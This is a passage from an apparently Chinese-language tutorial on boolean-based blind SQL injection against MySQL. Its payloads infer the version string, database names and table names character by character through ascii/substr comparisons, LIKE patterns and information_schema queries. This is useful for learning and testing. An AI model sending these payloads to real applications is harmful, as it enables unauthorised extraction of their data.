 > 若上述查询返回正常结果，则表明版本号字符串（`version()`）的第一个字符大于'4'

逐渐增大比较的字符，则可以推断出数据库版本号，如下所示

```sql
# 假设版本号为  “5.0.96-0ubuntu3”
# 版本字符串用 version 表示

# version[0]
1 AND (ascii(substr((SELECT version()),1,1))) > 52 # true ---> version[0] > '4'
1 AND (ascii(substr((SELECT version()),1,1))) > 53 # false ---> version[0] <= '5'
# version[0] = '5'

# version[1] = '.' 跳过测试

# version[2] 
1 AND (ascii(substr((SELECT version()),3,1))) > 48 # false ---> version[2] <= '0'
# version[2] = '0'

# 以此类推可得 version 全部字符
```

或者使用`like`来猜测每个字符

```sql
AND (SELECT version()) LIKE "5%" # -->version[0]
AND (SELECT version()) LIKE "__0%" # -->version[2]
AND (SELECT version()) LIKE "____9" # -->version[4]
...
```

#### 提取所有数据库

```sql
1 AND (ascii(substr((
    SELECT schema_name FROM information_schema.schemata LIMIT 0,1
	),1,1))) > 95  # db1[0] > 95 ?
	
1 AND (ascii(substr((
    SELECT schema_name FROM information_schema.schemata LIMIT 0,1
	),2,1))) > 95  # db1[1] > 95 ?
	
...

1 AND (ascii(substr((
    SELECT schema_name FROM information_schema.schemata LIMIT 1,1
	),1,1))) > 95  # db2[0] > 95 ?

...
```

#### 提取数据库A中的所有表

```sql
1 AND (ascii(substr((
    SELECT TABLE_NAME FROM information_schema.TABLES 
    	WHERE table_schema="A" 
    	LIMIT 0,1
	),1,1))) > 95--
```
